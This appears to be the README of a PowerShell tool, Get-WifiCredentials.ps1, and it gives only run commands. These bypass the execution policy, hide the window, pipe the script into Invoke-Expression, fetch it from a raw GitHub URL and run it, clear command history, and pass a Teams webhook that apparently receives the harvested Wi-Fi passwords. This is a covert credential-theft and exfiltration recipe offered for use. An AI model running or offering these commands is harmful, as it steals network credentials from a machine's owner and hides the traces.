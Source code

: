 # Readme

## Running

### From file

```powershell
powershell -ExecutionPolicy Bypass -File .\Get-WifiCredentials.ps1 -returnResult -clearHistory -teamsWebhookURI "yourWebhookUrl" 
```

```powershell
powershell -w h -ep bypass -Command {
    $teamsWebhookURI = "<url>";
    $returnResult = $true;
    $clearHistory = $true;
    get-content .\Get-WifiCredentials.ps1 -raw | iex
}
```

### From URL

```powershell
powershell -w h -ep bypass -Command {
    $teamsWebhookURI = "<url>";
    $returnResult = $true;
    $clearHistory = $true;
    irm https://raw.githubusercontent.com/Aidenwebb/scripts/refs/heads/main/credentials/windows/wifi/Get-WifiCredentials.ps1 | iex
}
```